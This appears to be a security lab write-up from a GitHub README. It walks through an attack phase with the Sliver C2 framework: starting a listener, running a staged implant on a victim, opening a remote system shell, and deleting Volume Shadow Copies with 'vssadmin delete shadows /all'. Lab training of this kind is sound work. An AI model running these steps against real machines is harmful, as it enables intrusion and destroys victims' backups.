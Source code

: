  Attack

With the environment prepared and access to the victim machine confirmed, I proceeded to launch the attack phase using the Sliver C2 framework. The implant used in this phase was created during a previous lab and is already staged on the victim.


 Launch the Sliver server
```bash
sliver-server
```
[Launch Sliver](./screenshots/Launch%20sliver.png)
 
 Run HTTP listner
```bash
http
```
 On the victim machine execute the implant
```powershell
./NEW_SHAKEDOWN (#You'll have to navigate to directory, or specify path)
```

 Return to the attacker machine and check for an incoming session
```bash
sessions
```
 Interact with the live session
```bash
 use <session_id>
```
[Session Interaction](./screenshots/Interact%20with%20session.png)

 Drop to system native command prompt 
```bash
shell(#When Prompted 'are you an adult?' type Y) 
```
[Shell](./screenshots/shell.png)

 Verify active sysytem shell
```bash
whoami
```
 Run command to simulate volime Shadow Copy deletion
```bash
vssadmin delete shadows /all
```
[Volume Deletion Attempt](./screenshots/Volume%20deletion.png)
